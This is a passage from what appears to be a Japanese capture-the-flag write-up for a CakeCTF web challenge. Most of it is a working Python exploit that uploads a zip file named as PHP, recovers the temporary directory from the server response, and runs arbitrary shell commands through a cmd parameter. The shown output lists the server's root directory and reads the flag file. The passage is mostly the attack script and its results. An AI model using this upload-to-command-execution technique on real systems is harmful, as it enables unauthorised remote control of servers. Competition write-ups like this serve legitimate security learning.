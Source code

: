 `exploit.py`:
```python
import httpx
import re
import sys

URL = "http://web.cakectf.com:8004/"

if __name__ == "__main__":
    cmd = sys.argv[1]

    files = [
        ("zipfile[]", (".b.zip.php", open("b.zip", "rb"))),
        ("zipfile[]", ("a"*1000 + ".zip", open("b.zip", "rb"))),
    ]

    res = httpx.post(
        URL,
        files=files,
    )
    assert res.status_code == 200

    dname = re.sub(r'^.*\s([0-9a-f]+)/a{1000}.*$', r'\1', res.text, flags=re.DOTALL)

    res = httpx.post(
        f"{URL}/temp/{dname}/.b.zip.php",
        params={
            "cmd": cmd,
        }
    )
    assert res.status_code == 200
    print(res.content)
```

あとはこのスクリプトで好きなコマンドが叩けます。

```sh
$ python exploit.py "ls -la /"
b'PK\x03\x04\n\x00\x00\x00\x00\x00\xd6\xbe\x1eS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x1c\x00xUT\t\x00\x034\xf1,a9\xf1,aux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\n\x00\x00\x00\x00\x00\xd6\xbe\x1eS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x18\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb4\x81\x00\x00\x00\x00xUT\x05\x00\x034\xf1,aux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00G\x00\x00\x00;\x00\x00\x00\x00\x00total 84\ndrwxr-xr-x   1 root root 4096 Aug 30 04:59 .\ndrwxr-xr-x   1 root root 4096 Aug 30 04:59 ..\n-rwxr-xr-x   1 root root    0 Aug 30 04:59 .dockerenv\ndrwxr-xr-x   1 root root 4096 Aug 18 12:33 bin\ndrwxr-xr-x   2 root root 4096 Apr 10 20:15 boot\ndrwxr-xr-x   5 root root  340 Aug 30 04:59 dev\ndrwxr-xr-x   1 root root 4096 Aug 30 04:59 etc\n-r--r--r--   1 root root   56 Aug 30 04:58 flag-5e3981bf788023be6eef57b0ec5512f5.txt\ndrwxr-xr-x   2 root root 4096 Apr 10 20:15 home\ndrwxr-xr-x   1 root root 4096 Aug 18 12:27 lib\ndrwxr-xr-x   2 root root 4096 Aug 16 00:00 lib64\ndrwxr-xr-x   2 root root 4096 Aug 16 00:00 media\ndrwxr-xr-x   2 root root 4096 Aug 16 00:00 mnt\ndrwxr-xr-x   2 root root 4096 Aug 16 00:00 opt\ndr-xr-xr-x 287 root root    0 Aug 30 04:59 proc\ndrwx------   1 root root 4096 Aug 26 21:51 root\ndrwxr-xr-x   1 root root 4096 Aug 18 12:33 run\ndrwxr-xr-x   1 root root 4096 Aug 18 12:33 sbin\ndrwxr-xr-x   2 root root 4096 Aug 16 00:00 srv\ndr-xr-xr-x  13 root root    0 Aug 30 04:59 sys\ndrwxrwxrwt   1 root root 4096 Aug 30 14:57 tmp\ndrwxr-xr-x   1 root root 4096 Aug 16 00:00 usr\ndrwxr-xr-x   1 root root 4096 Aug 18 12:27 var\n'

$ python exploit.py "cat /flag-5e3981bf788023be6eef57b0ec5512f5.txt"
b'PK\x03\x04\n\x00\x00\x00\x00\x00\xd6\xbe\x1eS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x1c\x00xUT\t\x00\x034\xf1,a9\xf1,aux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\n\x00\x00\x00\x00\x00\xd6\xbe\x1eS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x18\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb4\x81\x00\x00\x00\x00xUT\x05\x00\x034\xf1,aux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00G\x00\x00\x00;\x00\x00\x00\x00\x00CakeCTF{uNd3r5t4nd1Ng_4Nd_3xpl01t1Ng_f1l35y5t3m_cf1944}\n'
```


[^1]: 実際にはコンテスト中にこの謎挙動の仕様調査はせず、10回くらい同じ文字列を投げれば何個かヒット漏れするでしょという気持ちで、雑にリクエストを投げています。
[^2]: https://github.com/waderwu/My-CTF-Challenges/blob/master/0ctf-2021/1linephp/writeup/1linephp_writeup_en.md